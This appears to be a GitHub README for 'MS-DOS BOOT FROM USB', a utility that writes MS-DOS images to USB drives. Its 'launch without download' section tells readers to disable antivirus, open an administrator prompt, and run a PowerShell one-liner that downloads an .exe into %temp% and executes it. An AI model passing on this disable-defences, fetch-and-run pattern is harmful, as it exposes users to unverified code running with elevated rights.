 # MS-DOS BOOT FROM USB
MS-DOS BOOT FROM USB - This is a free utility for writing MS-DOS 5.0, 6.22 and 7.01, to flash drives, and external USB hard drives.
With this program, you can write both a clean version of MS-DOS 7.01, and already habitable, with all peripheral driver, and useful programs such as: RAR, Volkov Commander, MPXP160, etc.

![Screnshot](https://github.com/ctv-software/MBFU/blob/main/MBFU56EN.png)

Regarding MS-DOS 5.0, 6.22, MS-DOS BOOT FROM USB is the only program that can fully write these versions of MS-DOS to a USB flash drive, just as other programs write floppy disk images of these OS into the boot sector, as a result of which the system is cleared into RAM memory and does not save changes on the disk.

Important:
To boot from a bootable MS-DOS flash drive created in MS-DOS BOOT FROM USB, on computers with UEFI, you need to disable Secure Boot.

You can download the utility here: https://sementsul.ru/?getsoft=lo72b6347<br />
The official page of the program: http://sementsul.ru/<br />


Launching MBFU without preliminary download, method for win8 and above<br />
Actions:<br />
1) Disable antivirus(es)<br />
2) Run the command line as administrator.<br />
3) Enter the first command in the terminal:<br />
powershell -command "(New-Object Net.WebClient).DownloadFile(' https://github.com/ctv-software/webdos622/raw/main/MBFU-BETA-UP.exe ', '%temp%\MBFU-BETA-UP.exe')"<br />

And press Enter, wait for the process to complete.<br />
4) Paste the second command into the terminal:<br />
%temp%\MBFU-BETA-UP.exe<br />

And press Enter, wait for the process to complete.<br />
Then the MBFU interface will open for you<br />
